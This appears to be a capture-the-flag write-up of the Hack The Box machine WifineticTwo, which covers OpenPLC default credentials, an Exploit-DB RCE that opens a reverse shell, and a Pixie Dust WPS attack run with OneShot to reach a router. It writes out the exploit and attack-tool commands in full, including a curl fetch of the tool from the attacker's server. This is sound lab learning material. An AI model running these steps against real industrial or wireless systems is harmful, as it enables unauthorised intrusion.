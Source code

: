 ```yaml
---
title: HTB- WifineticTwo
draft: false
tags:
  - htb
  - linux
  - wifi
  - openplc
  - oneshot
  - pixiedust
---
```


![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/wifinetictwo/WifineticTwo.png)

## Information Gathering
### Rustscan

Rustscan discovers SSH and port 8080 open:

`rustscan --addresses 10.10.11.7 --range 1-65535`

![alt text](image-1.png)

## Enumeration
### HTTP - TCP 8080

The website shows **OpenPLC Webserver** login portal: 

![alt text](image.png)

Googling a little bit about it, default credentials are shown to be **openplc**:**openplc**.

![alt text](image-3.png)

Using the default credentials, we are able to login to the system:

![alt text](image-2.png)

## OpenPLC RCE

Researching on known vulnerabilities regarding OpenPLC, it seems like we can exploit [Authenticated RCE](https://www.exploit-db.com/exploits/49803).

There's some minor script modification to be made before running the exploit. 

**compile_program**, we can see **681871.st** is being used:

![alt text](image-4.png)

However, OpenPLC is using a program name **blank_program.st**:

![alt text](image-5.png)

Let's modify the script according to it as such:

![alt text](image-7.png)

Now let's run the exploit towards our netcat listener:

`python 49803.py -u http://10.10.11.7:8080 -l openplc -p openplc -i 10.10.14.29 -r 1337`

![alt text](image-6.png)

We get a reverse shell as the root:

![alt text](image-8.png)


## Privilege Escalation

`ifconfig` commands shows a network interface **wlan0**, which is usually used for WiFi:

![alt text](image-9.png)

Let's find more about it through: `iw dev wlan0 scan`

![alt text](image-10.png)

Scan shows that there's a Wifi **plcrouter** which has WPS enabled.

### Pixie Dust

Based on the scan result above, we can try **pixie dust** attack using **[oneshot](https://github.com/kimocoder/OneShot)**.

Let's first upload **oneshot.py** to the host using Python HTTP server and curl:

`curl 10.10.14.29:1335/oneshot.py > oneshot.py`

![alt text](image-11.png)

Now let's decrypt the WEP-encrypted WLAN traffic and receive password using the following command:

`python3 oneshot.py -i wlan0 -K`

![alt text](image-12.png)

Password **NoWWEDoKnowWhaTisReal123!** is discoverd.

Next, let's generate a passphrase for a WLAN network and write it to a configuration file:

`wpa_passphrase plcrouter 'NoWWEDoKnowWhaTisReal123!' > config`

![alt text](image-13.png)

Let's initiate the WPA Supplicant daemon with the specified configuration file "config" and associates it with the wireless network interface "wlan0":

`wpa_supplicant -B -c config -i wlan0`

![alt text](image-14.png)

At the momment, there is no ip address assigned to wlan0:

![alt text](image-15.png)

Let's assign IP address 192.168.1.5 with the netmask 255.255.255.0 to the network interface waln0:

`ifconfig wlan0 192.168.1.5 netmask 255.255.255.0`

![alt text](image-16.png)

SSH login to the router is blocked for some reason:

`ssh root@192.168.1.1`

![alt text](image-17.png)

After starting interactive TTY session with Python, we now have access to the router through SSH:

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

![alt text](image-18.png)


## References
- https://github.com/kimocoder/OneShot
- https://www.exploit-db.com/exploits/49803

